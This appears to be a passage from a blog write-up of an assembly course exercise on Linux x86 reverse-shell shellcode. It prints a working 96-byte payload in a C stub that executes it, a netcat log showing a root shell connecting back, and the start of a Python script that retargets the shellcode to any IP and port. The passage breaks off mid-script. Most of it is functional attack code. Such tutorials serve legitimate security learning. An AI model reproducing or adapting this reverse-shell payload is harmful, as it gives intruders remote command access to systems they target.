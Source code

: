 and try it in our shellcode.c stub program.

    #include<stdio.h>
    #include<string.h>
    
    unsigned char code[] = \
    "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
    "\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x01\x01"
    "\x02\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89"
    "\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0"
    "\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f"
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
    
    
    main()
    {
    
      printf("Shellcode Length:  %d\n", strlen(code));
    
      int (*ret)() = (int(*)())code;
    
      ret();
    
    }

`gcc shellcode.c -o shellcode`

It still works at a length of 96 bytes:

    root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37310
    id
    uid=0(root) gid=0(root) groups=0(root)

So once again, we can always go back and optimize length but the
last thing we need to do is write another wrapper program which
will allow us to set the IP and PORT easily. Lets use our previous
python script as a starting point. We need to remember though that
whatever IP address a user enters that we want to increment each
octet so the math in the assembly works out:

\#+NAME reverse-shell.py

    #!/usr/bin/python
    
    import sys,socket
    
    if len(sys.argv) != 3:
      print "Fail!"
    
    ipbts           = bytearray(socket.inet_aton(sys.argv[1]))
    incremented     = [b+1 for b in ipbts]
    ip              = "".join(["\\x" + format(b, 'x') for b in incremented])
    port_number     = int(sys.argv[2])
    bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
    filtered        = [b for b in bts if b > 0]
    formatted       = ["\\x" + format(b, 'x') for b in filtered]
    port            = "".join(formatted)
    